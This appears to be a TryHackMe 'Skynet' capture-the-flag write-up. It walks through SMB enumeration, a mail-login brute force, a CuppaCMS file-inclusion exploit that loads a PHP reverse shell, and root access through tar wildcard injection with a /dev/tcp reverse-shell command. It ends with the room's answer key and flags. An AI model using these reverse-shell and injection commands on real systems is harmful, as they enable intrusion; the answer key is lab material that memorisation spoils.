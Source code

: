 ```yaml
---
title: Skynet
date: 2022-09-03 09:45:47 +07:00
modified: 2022-08-02 09:45:47 +07:00
tags: [Skynet, TryHackMe, Writeup, OSCP]
description: Write Up for TryHackMe room Skynet
---
```


# Skynet

![](https://photos.squarezero.dev/file/abir-images/Skynet/logo.jpeg)

Room Name → **Skynet**

Room Link → [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

Description → A vulnerable Terminator themed Linux machine.

## **Recon**

I start with port scanning and service detection with [AutoRecon]().

Following ports  were found

| Ports   | Service

| 22      | TCP (OpenSSH 7.2p2)

| 80      | HTTP (Apache httpd 2.4.18)

| 110     | POP3 (Dovecot pop3d)

| 139     | Samba (smbd 3.x - 4.x)

| 143     | imap (Dovecot imapd)

| 445     | Samba (smbd 4.3.11-Ubuntu)


![](https://photos.squarezero.dev/file/abir-images/Skynet/1.png)

Next, I start enumerating websites using [Feroxbuster]()

`feroxbuster -u [http://10.10.244.66/](http://10.10.244.66/45kra24zxs28v3yd) -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/2.png)

I found a login page [Squirrelmail]

`http://10.10.244.66/squirrelmail/src/login.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/3.png)

Then I enumerate SMB with [SMBMAP]()

`smbmap -H 10.10.244.66`

![](https://photos.squarezero.dev/file/abir-images/Skynet/4.png)

## **Exploit**

First I decided to check out SMB to see if it has something useful.
Only “anonymous” had an anonymous share. so I checked it out.

![](https://photos.squarezero.dev/file/abir-images/Skynet/5.png)

Inside I found a “attention.txt” and a log folder containing 3 text files.

![](https://photos.squarezero.dev/file/abir-images/Skynet/6.png)

![](https://photos.squarezero.dev/file/abir-images/Skynet/7.png)

The password for SMB has been reset. Also in the log1.txt I found potential passwords.

 ![](https://photos.squarezero.dev/file/abir-images/Skynet/8.png)

I decided to brute-force mail login page using username → “milesdyson” and log1.txt as passwords. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/9.png)

I logged in with “cyborg007haloterminator” and inside I found out the new password → `)s{A&2Z=F^n_E.B``

![](https://photos.squarezero.dev/file/abir-images/Skynet/10.png)

I logged in to SMB using the new password.  

![](https://photos.squarezero.dev/file/abir-images/Skynet/11.png)

I found important.txt.

![](https://photos.squarezero.dev/file/abir-images/Skynet/12.png)

The note mentions a hidden directory `/45kra24zxs28v3yd`

![](https://photos.squarezero.dev/file/abir-images/Skynet/13.png)

## **More E**numeration

I check out the source code of the page but didn’t find anything interesting. 

Also, I checked out the picture to see if there was any useful metadata. Still nothing interesting.

Next, I decided to find hidden directories. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/14.png)

I found another login page → `http://10.10.244.66/45kra24zxs28v3yd/administrator/`

![](https://photos.squarezero.dev/file/abir-images/Skynet/15.png)

## **More Exploitation**

After looking for a little bit I found an exploit for CuppaCMS in [exploit-DB](https://www.exploit-db.com/exploits/25971)

![](https://photos.squarezero.dev/file/abir-images/Skynet/16.png)

It is a local File Inclusion exploit where I can run my reverse shell. 

I download a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) and changed the host and port number.

![](https://photos.squarezero.dev/file/abir-images/Skynet/17.png)

Then I opened a python server and start a Netcat listening.

`python3 -m http.server 80`

`nc -lnvp 4444`

I executed LFI and got a shell

`10.10.244.66/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.19.204:80/shell.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/18.png)

I got the user flag

![](https://photos.squarezero.dev/file/abir-images/Skynet/19.png)

## **Privilege Escalation**

Time to get the root flag. I start by making the shell stable using python

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

![](https://photos.squarezero.dev/file/abir-images/Skynet/20.png)

I run Linpeas to find possible vulnerabilities to get the root.

![](https://photos.squarezero.dev/file/abir-images/Skynet/21.png)

After looking for sometimes I found a cronjob that runs as root every min

![](https://photos.squarezero.dev/file/abir-images/Skynet/22.png)

Upon checking the code I found the following

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I found this article exploiting tar wildcards → [TarWildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Tar has two options 

**–checkpoint[=NUMBER]** show progress messages for every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

This will help get access to root

```bash
I used the following commands
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.13.19.204/4445 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Then I started a Netcat session and wait for the cronjob to work. 

Now I am Root

![](https://photos.squarezero.dev/file/abir-images/Skynet/23.png)

I got the root flag! 

![](https://photos.squarezero.dev/file/abir-images/Skynet/24.png)

***Q1. What is Miles password for his emails?***

***A. cyborg007haloterminator***

***Q2. What is the hidden directory?***

***A. /45kra24zxs28v3yd***

***Q3. What is the vulnerability called when you can include a remote file for malicious purposes?***

***A. remote file inclusion***

***Q4. What is the user flag?***

***A. 7ce5c2109a40f958099283600a9ae807***

***Q5. What is the root flag?***

***A. 3f0372db24753accc7179a282cd6a949***